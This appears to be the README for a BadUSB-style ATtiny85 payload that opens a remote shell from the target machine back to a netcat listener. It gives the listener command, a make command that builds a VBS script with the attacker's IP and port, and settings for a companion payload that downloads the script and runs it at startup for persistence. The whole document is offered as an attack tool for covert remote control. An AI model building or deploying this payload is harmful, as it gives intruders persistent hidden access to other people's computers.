 # Objective

Allows you to open a remote shell (for remote control) by connecting to a computer that has opened a netcat server as follows:  
``nc -k -l 4444``  
This code can be made persistent thanks to the payload: [https://github.com/jzyra/Attiny85Payloads/tree/main/payloads/download](https://github.com/jzyra/Attiny85Payloads/tree/main/payloads/ download)

# Build

The script to use must be generated with the make command, specifying the IP address and port of the netcat server:

    make IP=127.0.0.1 PORT=4444

# Download payload settings

* __URL__ : Direct download URL to the ``out.vbs`` script.
* __EXE_FILENAME__ : tmp.vbs
* __STARTUP__ : Set.
